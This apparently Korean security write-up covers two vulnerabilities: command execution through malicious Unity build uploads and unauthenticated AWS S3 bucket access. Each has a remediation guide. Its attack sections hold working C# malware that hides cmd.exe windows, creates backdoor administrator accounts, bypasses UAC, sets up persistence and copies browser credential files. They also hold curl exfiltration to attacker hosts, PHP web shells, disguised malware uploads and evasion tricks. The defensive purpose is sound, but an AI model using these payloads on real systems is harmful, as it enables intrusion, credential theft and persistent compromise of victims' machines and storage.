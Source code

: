 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
```
</details>




<details><summary><strong>AWS S3 무인증 접근</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### AWS S3 무인증 접근 취약점이란?
AWS S3 버킷이 잘못 구성되어 `--no-sign-request` 옵션을 통해 인증 없이 접근 가능할 때 발생하는 취약점입니다. 공격자가 AWS CLI를 사용하여 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
**AWS CLI를 통한 AWS S3 서버 접근**
- S3 버킷의 퍼블릭 정책 설정 오류
- 버킷 ACL(Access Control List) 잘못된 구성
- IAM 정책의 과도한 권한 부여

### 상세 공격 과정 (페이로드)

#### 1단계: AWS CLI 설치 및 버킷 접근
```bash

# 무인증 버킷 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl
```

**명령어 옵션 상세 분석:**
- `--no-sign-request`: AWS 액세스 키 없이 요청 서명 생략
- `--no-verify-ssl`: SSL 인증서 검증 우회 (자체 서명 인증서 환경)
- `s3://test_s3_URL`: 타겟 S3 버킷 URL

#### 2단계: 권한 테스트 및 정보 수집
```bash
# 버킷 내 전체 파일 구조 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --no-verify-ssl

# 버킷 정책 정보 수집
aws s3api get-bucket-policy --bucket test_s3_URL --no-sign-request 2>/dev/null

# 버킷 위치 및 설정 정보
aws s3api get-bucket-location --bucket test_s3_URL --no-sign-request
aws s3api get-bucket-acl --bucket test_s3_URL --no-sign-request

# 버킷 크기 및 객체 수 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --summarize
```

#### 3단계: 파일 다운로드 (확장자 검증 없음)
```bash
# 민감한 파일 패턴 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|config|key|pem|p12|jks)$"

# 설정 파일 다운로드
aws s3 cp s3://test_s3_URL/.env ./stolen_configs/ --no-sign-request --no-verify-ssl
aws s3 cp s3://test_s3_URL/config/database.yml ./stolen_configs/ --no-sign-request --no-verify-ssl

# 사용자 업로드 파일 일괄 다운로드
aws s3 sync s3://test_s3_URL/uploads/ ./stolen_user_files/ --no-sign-request --no-verify-ssl

# 백업 파일 탈취
aws s3 cp s3://test_s3_URL/backups/ ./stolen_backups/ --recursive --no-sign-request --no-verify-ssl
```

#### 4단계: 악성 파일 업로드 (확장자 검증 없음)
```bash
# 웹쉘 업로드
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > backdoor.php
aws s3 cp backdoor.php s3://test_s3_URL/public/images/logo.php --no-sign-request --no-verify-ssl

# 피싱 페이지 업로드
aws s3 cp phishing_login.html s3://test_s3_URL/login.html --no-sign-request --no-verify-ssl

# 멀웨어 배포
aws s3 cp trojan.exe s3://test_s3_URL/downloads/security_update.exe --no-sign-request --no-verify-ssl

# 크립토마이너 업로드
aws s3 cp cryptominer.js s3://test_s3_URL/assets/jquery.min.js --no-sign-request --no-verify-ssl
```

### 발생 원인 분석

#### 주요 원인: AWS S3 서버 설정 오류로 인한 무인증 접근
1. **퍼블릭 읽기 권한 설정**: 버킷이 `public-read` 또는 `public-read-write`로 설정
2. **잘못된 버킷 정책**: `Principal: "*"`로 모든 사용자에게 권한 부여
3. **ACL 설정 오류**: `AllUsers` 그룹에 대한 권한 부여
4. **IAM 정책 오설정**: 과도한 권한이 퍼블릭으로 노출

#### 취약한 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",  // 모든 사용자 허용 (위험)
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"  // 업로드 권한까지 부여 (매우 위험)
            ],
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

#### 위험한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl authenticated-read
```

### 실제 공격 시나리오

#### 시나리오 1: 데이터 탈취
```bash
# 1. 버킷 발견 및 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl

# 2. 민감한 파일 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|yml|json|sql|log)$"

# 3. 대용량 데이터 일괄 다운로드
aws s3 sync s3://test_s3_URL/user_data/ ./stolen_data/ --no-sign-request --no-verify-ssl

# 4. 압축하여 외부 서버로 전송
tar -czf stolen_data.tar.gz ./stolen_data/
curl -X POST -F "file=@stolen_data.tar.gz" http://attacker-server.com/collect
```

#### 시나리오 2: 서비스 방해 및 변조
```bash
# 1. 중요 파일 삭제
aws s3 rm s3://test_s3_URL/config/app.yml --no-sign-request

# 2. 대용량 파일 업로드로 스토리지 소모
dd if=/dev/zero of=garbage.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp garbage.bin s3://test_s3_URL/ --no-sign-request

# 3. 웹사이트 메인 페이지 변조
echo "<h1>Hacked by Attacker</h1>" > defaced.html
aws s3 cp defaced.html s3://test_s3_URL/index.html --no-sign-request
```

#### 시나리오 3: 악성 파일 배포
```bash
# 1. 멀웨어 업로드 및 정상 파일로 위장
aws s3 cp malware.exe s3://test_s3_URL/downloads/software_update.exe --no-sign-request

# 2. 피싱 페이지 배포
aws s3 cp fake_login.html s3://test_s3_URL/secure/login.html --no-sign-request

# 3. 웹쉘 업로드
echo '<?php system($_GET["c"]); ?>' > shell.php
aws s3 cp shell.php s3://test_s3_URL/assets/config.php --no-sign-request
```

### 고급 공격 기법

#### 타이밍 기반 공격:
```bash
# 새벽 시간대 대용량 업로드 (탐지 회피)
crontab -e
# 0 2 * * * aws s3 sync /tmp/malicious_files/ s3://test_s3_URL/hidden/ --no-sign-request
```

#### 분산 공격:
```bash
# 여러 IP에서 동시 접근으로 탐지 회피
for ip in 1.2.3.4 5.6.7.8 9.10.11.12; do
    ssh $ip "aws s3 cp s3://test_s3_URL/sensitive_data.sql ./data_$ip.sql --no-sign-request"
done
```

#### 스테가노그래피 활용:
```bash
# 이미지 파일에 데이터 숨기기
steghide embed -cf innocent_image.jpg -ef stolen_data.txt -p password123
aws s3 cp innocent_image.jpg s3://test_s3_URL/images/gallery001.jpg --no-sign-request
```

---

## 2. 조치 가이드

### 2.1. 퍼블릭 액세스 즉시 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket test_s3_URL \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

### 2.3. CloudTrail 모니터링 활성화
```bash
# S3 데이터 이벤트 로깅 활성화
aws cloudtrail put-event-selectors \
    --trail-name s3-monitoring \
    --event-selectors ReadWriteType=All,IncludeManagementEvents=true,DataResources=[{Type=AWS::S3::Object,Values=["arn:aws:s3:::test_s3_URL/*"]}]
```

### 2.4. 응급 격리 조치
```bash
# 1. 버킷 정책 즉시 제거
aws s3api delete-bucket-policy --bucket test_s3_URL

# 2. 의심스러운 파일 확인
aws s3 ls s3://test_s3_URL --recursive | grep -E "\.(php|jsp|asp|exe)$"

# 3. 최근 업로드 파일 격리
aws s3 mv s3://test_s3_URL/suspicious_file.php s3://quarantine-bucket/
```

### 2.5. 보안 강화 설정
```bash
# MFA 삭제 보호 활성화
aws s3api put-bucket-versioning \
    --bucket test_s3_URL \
    --versioning-configuration Status=Enabled,MFADelete=Enabled

# 암호화 강제 적용
aws s3api put-bucket-encryption \
    --bucket test_s3_URL \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```
</details>

